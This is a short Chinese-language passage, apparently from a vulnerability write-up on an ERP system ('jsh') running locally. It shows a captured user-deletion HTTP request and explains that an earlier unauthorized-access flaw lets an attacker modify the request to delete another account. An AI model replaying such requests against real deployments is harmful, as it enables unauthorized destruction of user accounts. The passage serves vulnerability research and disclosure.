 登陆 jsh 账户，选择一个用户进行删除

[![](assets/1711556055-ed41e83c7795dd5d802fc1994181bfb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233711-c3e8c4c0-c117-1.png)

抓包

```plain
POST /user/deleteUser HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 7
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706618997,1706707611,1706717491; JSESSIONID=67A20DB5D3DCEF7277316B22B9D579C3; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706790058
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

ids=135
```

利用前面的未授权漏洞，修改请求，删除 132 账户

[![](assets/1711556055-c85c5fc51df1aa95c4112dda34c51c7a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233723-cb6f4174-c117-1.png)
